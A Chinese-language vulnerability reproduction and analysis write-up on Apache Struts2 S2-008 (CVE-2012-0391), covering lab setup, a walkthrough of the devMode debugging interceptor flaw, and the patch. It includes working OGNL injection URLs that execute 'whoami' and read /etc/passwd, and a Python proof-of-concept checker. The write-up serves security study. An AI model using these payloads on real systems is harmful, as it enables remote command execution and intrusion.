





# 目录

[前言](##前言)

[Struts简介](##Struts简介)

[漏洞复现](##漏洞复现)

[漏洞简介](###漏洞简介)

[环境搭建](###环境搭建)

[Payload](###Payload)

[POC](###POC)

[漏洞分析](##漏洞分析)

[漏洞修复](##漏洞修复)

[总结](##总结)

[参考](##参考)


## 前言

> 这是Struts系列第五篇,继续加油!

## Struts简介

> Struts2是用Java语言编写的一个基于MVC设计模式的Web应用框架

## 漏洞复现

### 漏洞简介

> Struts2 S2-008漏洞,又名CVE-2012-0391漏洞.

> Struts2框架存在一个devmode模式,当devmode模式开启时,Struts2对传入的参数没有严格限制,导致多个地方可以执行恶意代码.

> [漏洞详情地址](https://cwiki.apache.org/confluence/display/WW/S2-008)

#### 漏洞成因

> Struts2框架存在一个devmode模式,当devmode模式开启时,Struts2对传入的参数没有严格限制,导致多个地方可以执行恶意代码.

#### 漏洞影响范围

> Struts 2.0.0 - Struts 2.3.17

### 环境搭建

> 使用IDEA直接打开[源码地址](https://github.com/xhycccc/Struts2-Vuln-Demo)中的对应文件,然后配置好Tomcat就可以运行了

### Payload

#### 执行命令

```java
?debug=command&expression=%28%23_memberAccess%5B"allowStaticMethodAccess"%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28"false"%29%20%2C%23context%5B"xwork.MethodAccessor.denyMethodExecution"%5D%3D%23foo%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%29%29
```

#### 读取文件

```java
?debug=command&expression=%28%23_memberAccess%5B"allowStaticMethodAccess"%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28"false"%29%20%2C%23context%5B"xwork.MethodAccessor.denyMethodExecution"%5D%3D%23foo%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27cat%20/etc/passwd%27%29.getInputStream%28%29%29%29
```

### POC

```python
#!/usr/bin/env python3

import urllib
import random
import string
import requests

class S2_008_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'Struts2 S2-008漏洞,又名CVE-2012-0391漏洞',
            'description': 'Struts2 S2-008漏洞可执行任意命令, 影响范围为: Struts 2.0.0 - Struts 2.3.17',
            'date': '2012-01-02',
            'type': 'RCE'
        }
        self.url = url
        if not self.url.startswith("http") and not self.url.startswith("https"):
                self.url = "http://" + self.url
        if '.action' not in self.url:
            self.url = self.url + '/devmode.action'
        self.capta = self.get_capta() 
        self.check_payload =  '?debug=command&expression=%28%23_memberAccess%5B"allowStaticMethodAccess"%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28"false"%29%20%2C%23context%5B"xwork.MethodAccessor.denyMethodExecution"%5D%3D%23foo%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27''' + urllib.parse.quote(('echo' + ' ' + self.capta), 'utf-8') + '''%27%29.getInputStream%28%29%29%29'''
    
    def get_capta(self):
        """
        获取一个随机字符串

        :param:

        :return str capta: 生成的字符串
        """
        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta

    def run(self):
        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """

        try:
            check_url = self.url + self.check_payload
            check_res = requests.get(check_url)
            if check_res.status_code == 200 and len(check_res.text) < 50 and self.capta in check_res.text:
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass

if  __name__ == "__main__":
    S2_008 = S2_008_BaseVerify('http://localhost:8080/s2_008_war_exploded/')
    S2_008.run()
```

## 漏洞分析

首先Struts2的运行流程是


&emsp;&emsp;&emsp;&emsp;1.HTTP请求经过一系列的标准过滤器(Filter)组件链(这些拦截器可以是Struts2 自带的,也可以是用户自定义的,本环境中struts.xml中的package继承自struts-default,struts-default就使用了Struts2自带的拦截器.ActionContextCleanUp主要是清理当前线程的ActionContext、Dispatcher,FilterDispatcher主要是通过ActionMapper来决定需要调用那个Action,FilterDispatcher是控制器的核心,也是MVC中控制层的核心组件),最后到达FilterDispatcher过滤器.

&emsp;&emsp;&emsp;&emsp;2.核心控制器组件FilterDispatcher根据ActionMapper中的设置确定是否需要调用某个Action组件来处理这个HttpServletRequest请求,如果ActionMapper决定调用某个Action组件,FilterDispatcher核心控制器组件就会把请求的处理权委托给ActionProxy组件.

&emsp;&emsp;&emsp;&emsp;3.ActionProxy组件通过Configuration Manager组件获取Struts2框架的配置文件struts.xml,最后找到需要调用的目标Action组件类,然后ActionProxy组件就创建出一个实现了命令模式的ActionInvocation类的对象实例类的对象实例(这个过程包括调用Anction组件本身之前调用多个的拦截器组件的before()方法)同时ActionInvocation组件通过代理模式调用目标Action组件.但是在调用之前ActionInvocation组件会根据配置文件中的设置项目加载与目标Action组件相关的所有拦截器组件(Interceptor)

&emsp;&emsp;&emsp;&emsp;4.一旦Action组件执行完毕,ActionInvocation组件将根据开发人员在Struts2.xml配置文件中定义的各个配置项目获得对象的返回结果,这个返回结果是这个Action组件的结果码(比如SUCCESS、INPUT),然后根据返回的该结果调用目标JSP页面以实现显示输出.

&emsp;&emsp;&emsp;&emsp;5.最后各个拦截器组件会被再次执行(但是顺序和开始时相反,并调用after()方法),然后请求最终被返回给系统的部署文件中配置的其他过滤器,如果已经设置了ActionContextCleanUp过滤器,那么FilterDispatcher就不会清理在ThreadLocal对象中保存的ActionContext信息.如果没有设置ActionContextCleanUp过滤器,FilterDispatcher就会清除掉所有的ThreadLocal对象.

具体分析过程:

&emsp;&emsp;&emsp;&emsp;1.Struts2框架存在一个devmode模式,方便开发人员调试程序,但是默认devmode是不开启的,如果想要使用,需要手动修改参数.可以将struts.properties中的devmode设置为true,或是在struts.xml中添加如下代码.

> <constant name="struts.devMode" value="true" /> 



&emsp;&emsp;&emsp;&emsp;2.问题出现在/web/WEB-INF/lib/struts2-core-2.2.3.jar!/org/apache/struts2/interceptor/debugging/DebuggingInterceptor.class:87函数内,在95行打断点,获取get中的debug参数的值command.



&emsp;&emsp;&emsp;&emsp;3.继续往下执行代码,通过if判断语句进入command分支,取得command参数的值





&emsp;&emsp;&emsp;&emsp;4.继续往下执行,通过statck.findValue即可执行OGNL表达式,造成代码执行.



## 漏洞修复

> 加强了对于参数的正则匹配

```java

ParametersInterceptor.class

private String acceptedParamNames = "[a-zA-Z0-9\\.\\]\\[\\(\\)_']+";

CookieInterceptor.class

private static final String ACCEPTED_PATTERN = "[a-zA-Z0-9\\.\\]\\[_'\\s]+";
```

## 总结

> struts2漏洞的精髓在ongl表达式......,自从S2-003漏洞补丁中的安全配置(禁止静态方法allowStaticMethodAcces、MethodAccessor.denyMethodExecution调用和类方法执行等)被绕过再次导致了S2-005漏洞后.之后漏洞都需要利用OGNL先把沙盒关闭掉,xwork.MethodAccessor.denyMethodExecution设置为false,allowStaticMethodAccess设置为true,然后再执行payload.

## 参考

> https://github.com/xhycccc/Struts2-Vuln-Demo

> https://blog.csdn.net/Fly_hps/article/details/85001659

> http://drops.xmd5.com/static/drops/papers-902.html

